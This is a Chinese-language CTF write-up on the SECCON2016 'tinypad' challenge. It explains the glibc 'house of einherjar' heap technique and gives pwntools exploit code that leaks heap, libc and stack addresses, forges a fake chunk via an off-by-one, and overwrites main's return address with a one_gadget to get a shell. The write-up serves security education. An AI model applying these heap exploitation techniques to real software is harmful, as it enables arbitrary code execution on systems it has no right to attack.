








## SECCON2016 tinypad - house of einherjar  - inuse smallbin/largebin chunk extend

本文参考ctf-wiki，简述house of einherjar的原理，并简单介绍SECCON2016 tinypad的利用思路，记录写exp时遇到的几个问题。

##0x01 house of einherjar 原理

首先举例来说，在64位程序中，程序malloc了size大小后，glibc中chunk的SIZE通常是size+8 对齐 0x10byte。假设程序malloc 0x88byte，则glibc的chunk SIZE为0x90，此时如果存在off-by-one漏洞甚至溢出漏洞，可以修改nextchunk的PREV_SIZE和INUSE，这便是house of einherjar的一个利用场景。归纳一下前提条件，本质是可以触发向后合并：

- nextchunk PREV_SIZE可控
- nextchunk INUSE可控

当可以控制上面两个值后，我们通常修改PREV_SIZE、设置INUSE为0。那么，free该chunk时，会触发向后(backward)合并。在glibc中free的源码如下：

```c
_int_free()
[...]
    /* consolidate backward */     // If p->BK is free, unlink it!!! check p PREV_INUSE
    if (!prev_inuse(p)) {
      prevsize = p->prev_size;
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      unlink(av, p, bck, fwd);   // IMPORTANT  if p->BK has fake FD BK ,arbitrary write!
    }
```

因此会将chunk_at_offset(p, -((long) prevsize)这里的chunk unlink，合并返回一个较大的chunk在unsorted bin中，再次malloc获取该chunk后，通常就可以实现任意地址写。整个过程可以参考下面house of einherjar作者的图片：


## 0x02 house of einherjar 利用

通过以上过程，我们发现利用的关键有两处：一是在低地址伪造好合适的fake_chunk。二是计算好fake_chunk和P之间的offset（因此通常需要泄漏堆地址）。之后就可以修改PREV_SIZE和INUSE并free该chunk再malloc完成写操作。

### 限制1 _int_free unlink next_chunk(P))->prev_size & FD、BK

第二点没什么好说的，重点说一下第一点中会遇到的问题。free P时，根据prev_size，也就是offset找到fake_chunk，并对其unlink。

```c
static void
_int_free (mstate av, mchunkptr p, int have_lock)                       
{  
    [...]
	nextsize = chunksize(nextchunk);
    if (__builtin_expect (nextchunk->size <= 2 * SIZE_SZ, 0)// check nextchunk->size valid
	|| __builtin_expect (nextsize >= av->system_mem, 0))
      {
	errstr = "free(): invalid next size (normal)";
	goto errout;
      }

    free_perturb (chunk2mem(p), size - 2 * SIZE_SZ);               //???

    /* consolidate backward */        // If p->BK is free, unlink it!!! check p PREV_INUSE
    if (!prev_inuse(p)) {
      prevsize = p->prev_size;
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      unlink(av, p, bck, fwd);        // IMPORTANT  if p->BK has fake FD BK ,arbitrary write!
    }
```

unlink时会首先check size和next_chunk(P))->prev_size是否相等；check fake_chunk中的FD和BK时，如果不想使用unlink attack，可以简单的设置FD和BK可以指定为&fake_chunk。

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \ // thinkycx 20181127
    if (__builtin_expect (chunksize(P) != (next_chunk(P))->prev_size, 0))      \      // check p->size ?= PREV_SIZE  伪造的size要相等
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    FD = P->fd;								      \                                               // EXPLOIT arbitrary write
    BK = P->bk;								      \                                               // ensute p + 2*site_t writable
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \                 // ptr protection! points to the same
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;
```


### 限制2 malloc 时 chunk size

假设fake_chunk伪造在bss，如果开了aslr，合并fake_chunk后，再次malloc从unsortedbin中取chunk时，堆地址和bss的地址通常会超过0x21000，也就是超过main_arena.system_mem（如下图所示），因此malloc会失败。因此需要再次修改fake_chunk的 SIZE在合适的大小之内。

```c
 _int_malloc{
 	[...]
 	for (;; )
    {
      int iters = 0;
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
        {
          bck = victim->bk;
          if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
              || __builtin_expect (victim->size > av->system_mem, 0))
            malloc_printerr (check_action, "malloc(): memory corruption",
                             chunk2mem (victim), av);
          size = chunksize (victim);
```

注意，修改SIZE时，由于要从unsorted bin中取出chunk，因此需要保证[bk+0x10]是可写的。目的是让后向的unsorted bin中的chunk指向下一个。



```c
static void *
_int_malloc (mstate av, size_t bytes)  
{     
[...]
          /* remove from unsorted list */
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```




## 0x03 tinypad

这题属于house of einherjar的教学题。这里简单描述一下功能，细节可以直接参考源码：https://github.com/thinkycx/pwn/blob/master/SECCON2016/tinypad/src/tinypad.c。

程序中最多允许创建4个chunk，提供create、delete、edit三个功能。chunk的size和地址保存在tinypad结构体中。

- create时调用read_until来读入数据，因此可以输入除了'\n'以外的所有字符。
- delete时free tinypad中的指针，但是指针没有置NULL，**存在UAF**。
- edit时功能稍微复杂，先将chunk中的data数据strcpy到tinypad.buffer中，再根据data的长度，调用readuntil读到tinypad.buffer中，可以输入buffer多次，最后strcpy tinypad.buffer到chunk中。由于read的length是strlen(&chunkdata)的长度，因此**存在off-by-ones漏洞**。

```c
const size_t memo_maxlen = 0x100;
struct {
    char buffer[0x100]; // make a fakechunk.
    struct {
        size_t size;
        char *memo;
    } page[4];
} tinypad;
```


## 0x04 exploit

利用思路：

- 利用UAF泄漏heap和libc地址
- 在tinypad.buffer中伪造chunk，house of einherjar修改tinypad.buffer中的指针
- 开了FULL RELRO，因此泄漏libc中的env，得到stack addr，修改main 的返回地址为onegadget getshell

### 1. 利用UAF泄漏heap和libc地址

创建两个smallbin的chunk，并free，由于存在UAF，可以读取chunk中的fd内容（\x00截断后面内容不能读）。因此可以泄漏libc和堆地址。注意main_arena的symbols在libc中没有，需要手工计算一下。

```python
def leak():
    add(0x88, "1"*0x88) # 1
    add(0x38, "2"*0x38) # 1 2
    add(0x100, "3"*0x92) # 1 2 3
    add(0x40, "4"*0x2f) # 1 2 3 4

    delete(3) # main_arena+0x88  # 1 2 [] 4
    delete(1) # heap+0xb0        # [] 2 [] 4

    io.recvuntil("INDEX: 1\x0a # CONTENT: ")
    logo = "\x0a\x0a\x0a+---"
    leak_heap = io.recvuntil(logo).split(logo)[0]
    heap_base = u64(leak_heap.ljust(8,"\x00")) - 0xc0 # leak_addr to 8 bytes and decode to int
    log.success("heap_base %#x", heap_base)

    io.recvuntil("INDEX: 3\x0a # CONTENT: ")
    logo = "\x0a\x0a\x0a+---"
    leak_libc = io.recvuntil(logo).split(logo)[0]
    libc.address = u64(leak_libc.ljust(8,"\x00"))  - 0x3c4b78 # main_arena offset, fail: libc.symbols['main_arena'] # leak_addr to 8 bytes and decode to int
    log.success("lib.address %#x", libc.address)

    add(0x100, "thinkycx") # 3 2 [] 4 FIFO
    add(0x88, "thinkycx") # 3 2 1 4

    offset = heap_base + 0xc0 - elf.symbols['tinypad']
    log.info("fake_prev_size %#x", offset)

    return offset
```

free两个smallbin的chunk3 和 chunk1后：



泄漏数据后，chunk中会存在指针，对于后续向缓冲区中输入长数据不太友好，因此需要delete后重新申请。

### 2. 在tinypad.buffer中伪造chunk，house of einherjar修改tinypad.buffer中的指针

由于chunk的SIZE最大为0x100，tinypad.buffer的大小为0x100。如果需要利用house of einherjar来修改指针，因此fake_chunk必须要伪造在&tiny.buffer+offset1处（exp中我写的是0x30）。确定了fake_chunk和off-by-one的chunkP的offset2后，需要将PREV_SIZE和\x00写入chunkP中。由于向chunk中的写操作是调用strcpy来做的（见上面对edit功能的描述），因此需要先add创建一个length很长的chunk，再向tinypad.buffer中写payload。由于PREV_SIZE和INUSE之间\x00的存在，需要多次调用strcpy来帮助我们写入\x00。完成chunkP中数据的伪造。

接下来到关键的tinypad.buffer中fake_chunk的伪造。我们可以再edit一个用不到的chunk来实现对tinypad.buffer中数据的输入。fake_chunk中的的SIZE和nextchunk(P)->PREV_SIZE都设置为0x100，bypass unlink中的SIZE check。fake_chunk的FD和BK设置为&fake_chunk bypass unlink中指针的check。



完成数据的伪造后，free触发向后合并unlink，合并后：



unlink后，unsortedbin中已经有了size为0x1170的chunk。再次malloc即可获取该chunk。注意，为了调试方便，此时没有开aslr，因此size为0x1170，此时为large bin，malloc时需要保证fd_nextsize为null。若开了aslr，unsortedbin 中fake_chunk中的size>0x21000，需要fix size才可以继续malloc。fix size时需要保证[bk+0x10]可写。



fix size和bk后，malloc时就可以从unsorted bin中取出chunk，可以修改tinypad中的数据了。




### 3. leak libc env and get stack addr，hjack main_retaddr

实现修改tinypad中数据后，就可以修改其中的指针了。由于程序开了FULL RELRO，不能hjack GOT。因此泄漏libc中的env指针，可以得到栈地址。之后劫持main_retaddr为onegadget即可。

注意，add时是用的read操作，因此可以读取\x00，后续堆chunk1座edit操作时，是无法修改\x00之后的数据的，因此需要在add时就把指针全部布置好。因此，写入env的地址和一个指针方便后续写入&mainret_addr。

```python
def houseofEinherjar(offset):
    '''
    strcpy heap data -> tinypad.buffer
    while:
            readuntil(tinypad.buffer, len(heap data), '\n')
    strcpy tinypad.buffer -> heap data
    '''
    delete(1)
    delete(3)
    delete(4)
    add(0x100, 0x90*"a")
    add(0x88, 0x88*"a")
    add(0x100, 0x90*"d")

    padding = 0x30*"a"
    fake_prev_size = offset - 0x30

    log.info("start to write fake_prev_size and 0x90!!!")
    fake_chunk_payload1 = 'b'*0x39# + p64(fake_prev_size) + "\x90"
    tmp = fake_chunk_payload1
    fake_chunk_payload1 = tmp[0:0x30] + p64(fake_prev_size).replace("\x00", 'z') + "\x10\x01"  + "z"
    log.info("fake_chunk_payload1 %s" % fake_chunk_payload1)
    edit(2, fake_chunk_payload1)

    for i in range(1, 12):
        if i==2: continue
        if i==3: continue
        if i>=12-len( p64(fake_prev_size).replace("\x00","") ): break
        tmp = fake_chunk_payload1[:-i] # + one_byte_add[::-1][i-1]
        edit(2, tmp)  # write prev_size , strcpy cannot copy '\0'


    fake_chunk = elf.symbols['tinypad'] + 0x30
    fake_chunk_payload2 = padding +  p64(0x0) + p64(0x100 | 0x1 ) + p64(fake_chunk)*2 #+ \
    fake_chunk_payload2 = fake_chunk_payload2.ljust(0x100,"\x00")# + p64(0x90)

    edit(4, fake_chunk_payload2)
    log.info("start to unlink")
    delete(1) # unlink
    log.info("start to fix size")
    main_arena = libc.address +0x3c4b78
    fake_chunk_payload2 = padding +  p64(0x0) + p64(0x100 | 0x1 ) + p64(main_arena)*2 #+ \

    edit(3, fake_chunk_payload2)

    fake_chunk = elf.symbols['tinypad'] + 0x30
    one_gadget = libc.address + 0x45216
    log.info("environ : %#x" % libc.symbols['__environ'])

    payload = 0xc0*"b" + p64(0xf0) + p64(fake_chunk)+  p64(0x100) + p64(libc.symbols['__environ'] ) + p64(0x100) + p64(0x603158)
    add(0xf8, payload)

    io.recvuntil("INDEX: 2\x0a # CONTENT: ")
    logo = "\x0a\x0a\x0a+---"
    leak_stack = io.recvuntil(logo).split(logo)[0]
    main_return = u64(leak_stack.ljust(8,"\x00")) - (0xe5e8-0xe4f8)

    log.info("write main_return ")
    edit(3, p64(main_return))

    log.info("write onegadget!!!")
    edit(2, p64(one_gadget))

    log.info("write  done!!")
    io.sendlineafter("(CMD)>>> ", "Q")
```



### 4. why not unlink？

补充一下，在house of einherjar过程中有unlink，为什么不用unlink打呢？在本题中，我们可以控制fake_chunk unlink时的FD和BK，也可以hjack 指针。但是修改指针后，edit时，read的length取决于当前指针指向的地址数据的length，因此修改指针后，无法读入数据。

### 5. another exp:  exp-noaslr-success.py

github repo中exp-noaslr-success.py是关了aslr的exploit。区别在于：默认fake_chunk和P之间的offset是两字节，strcpy写\x00时写了固定的长度。由于length很小，因此unlink时的size check也可以过了，不会大于av->system_mem，后续利用就比较简单，可以随意malloc，直接在unsortedbin中切割一块出来修改指针即可。


